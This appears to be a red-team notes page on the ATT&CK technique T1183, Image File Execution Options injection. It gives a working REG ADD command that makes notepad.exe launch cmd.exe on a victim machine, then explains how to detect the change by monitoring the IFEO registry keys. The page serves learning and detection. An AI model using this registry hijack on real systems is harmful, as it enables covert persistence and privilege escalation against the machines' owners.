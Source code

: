 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching a notepad on the victim system:

![](../.gitbook/assets/ifeo-notepad.png)

![](../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring commandline arguments and events mofidying the `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting these manipulations:

![](../.gitbook/assets/ifeo-cmdline.png)

![](../.gitbook/assets/ifeo-cmdline2.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1183\",\"type\":\"link\",\"title\":\"Image File Execution Options Injection - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/\",\"type\":\"link\",\"title\":\"Image File Execution Options \(IFEO\)\",\"description\":\"\[NOTE: This is a repost from my old blog www.debugtricks.com. The old blog no longer exists and I’ll be migrating my old posts over to this blog.\]  Image File Execution options provides you with a mechanism to always launch an executable directly under the debugger. This is extremely useful if you ever need to investigate...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blogs.msdn.microsoft.com/mithuns/wp-content/themes/microsoft-msdn/images/favicon-msdn.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://msdnshared.blob.core.windows.net/media/MSDNBlogsFS/prod.evol.blogs.msdn.com/CommunityServer.Blogs.Components.WeblogFiles/00/00/00/55/05/0572.gflags.gif\",\"width\":546,\"height\":536,\"aspectRatio\":0.9816849816849816}}" %}

{% embed data="{\"url\":\"https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/\",\"type\":\"link\",\"title\":\"A Debugging Approach to IFEO\",\"description\":\"IFEO \(Image File Execution Options\) is a feature provided by the NT based operating system. It can be helpful when you are trying to debug at the very beginning of an application launch. A few people also taked about IFEO on MSDN Blogs: Image File Execution Options by Junfeng. Inside ‘Image File Execution Options’ debugging...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blogs.msdn.microsoft.com/reiley/wp-content/themes/microsoft-msdn/images/favicon-msdn.png\",\"aspectRatio\":0}}" %}

